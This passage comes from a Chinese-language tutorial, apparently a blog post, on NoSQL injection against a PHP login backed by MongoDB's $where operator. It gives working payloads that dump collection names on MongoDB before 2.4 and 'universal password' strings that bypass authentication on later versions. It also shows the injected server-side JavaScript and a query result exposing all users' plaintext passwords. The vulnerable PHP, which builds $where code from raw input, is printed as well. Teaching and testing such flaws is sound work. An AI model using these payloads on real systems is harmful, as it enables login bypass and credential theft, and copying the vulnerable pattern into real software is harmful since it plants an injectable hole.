 ```php
		echo "Login Success".PHP_EOL;
		echo 'username:' . $user['username'].PHP_EOL;
		echo 'password:' . $user['password'].PHP_EOL;
	}
} else {
	echo 'Login Failed';
}
?>
```
#### MongoDB 2.4 之前

- 如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名
```sql
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```
#### MongoDB 2.4 之后
- MongoDB 2.4 之后 db 属性访问不到了，但应然可以构造万能密码，如果此时发送以下这几种数据
```sql
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6e5e39a1dd2040c7bf5c10dad77a3deb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
- 在后端处理的 PHP 数据如下

```php

array(
    '$where' ="
    function() { 
		var username = '1';
		var password = '1';return true;var a='1';
		if(username == 'admin' && password == '123456'){
			return true;
		}else{
			return false;
		}
	}
")
```
- 在 MongoDB 中执行的查询命令为

```sql

db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' && password == '123456'){ return true; }else{ return false; }}"})

{ "_id" : ObjectId("61445fbaa7a3dc15f3ac9c91"), "username" : "admin", "password" : "admin123" }
{ "_id" : ObjectId("61445fd0a7a3dc15f3ac9c92"), "username" : "Gyan", "password" : "20080826" }
{ "_id" : ObjectId("61445fe1a7a3dc15f3ac9c93"), "username" : "guest", "password" : "guest" }
{ "_id" : ObjectId("61445fe7a7a3dc15f3ac9c94"), "username" : "demo", "password" : "demo" }
{ "_id" : ObjectId("61445ff9a7a3dc15f3ac9c95"), "username" : "Tom", "password" : "123456" }
```
